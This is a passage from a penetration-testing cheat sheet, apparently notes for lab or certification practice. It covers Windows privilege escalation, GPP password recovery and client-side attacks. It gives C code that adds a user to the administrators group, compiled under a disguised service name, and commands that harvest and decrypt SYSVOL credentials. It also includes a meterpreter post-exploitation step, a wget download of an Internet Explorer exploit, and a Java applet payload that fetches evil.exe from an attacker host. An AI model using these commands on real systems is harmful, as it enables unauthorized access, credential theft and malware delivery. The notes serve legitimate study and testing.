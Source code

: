 -   Compile a custom add user command in windows using C  
 
             root@kali:~\# cat useradd.c  
             #include <stdlib.h> /* system, NULL, EXIT_FAILURE */  
             int main ()  
             {  
             int i;  
             i=system ("net localgroup administrators low /add");  
             return 0;  
             }  
 
             i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c
 
-   Group Policy Preferences (GPP)  
    A common useful misconfiguration found in modern domain environments
    is unprotected Windows GPP settings files
 
    -   map the Domain controller SYSVOL share  
       
        `net use z:\\dc01\SYSVOL`
 
    -   Find the GPP file: Groups.xml  
       
        `dir /s Groups.xml`
 
    -   Review the contents for passwords  
       
        `type Groups.xml`
 
    -   Decrypt using GPP Decrypt  
       
        `gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB`
       
-   Find and display the proof.txt or flag.txt - get the loot!
   
    `#meterpreter  >     run  post/windows/gather/win_privs`
    `cd\ & dir /b /s proof.txt`
    `type c:\pathto\proof.txt`
   
 
Client, Web and Password Attacks
==============================================================================================================================
 
-   <span id="_pcjm0n4oppqx" class="anchor"><span id="_Toc480741817" class="anchor"></span></span>Client Attacks
    ------------------------------------------------------------------------------------------------------------
 
    -   MS12-037- Internet Explorer 8 Fixed Col Span ID  
        wget -O exploit.html
        <http://www.exploit-db.com/download/24017>  
        service apache2 start
 
    -   JAVA Signed Jar client side attack  
        echo '<applet width="1" height="1" id="Java Secure"
        code="Java.class" archive="SignedJava.jar"><param name="1"
        value="http://$ip:80/evil.exe"></applet>' >
        /var/www/html/java.html  
        User must hit run on the popup that occurs.
 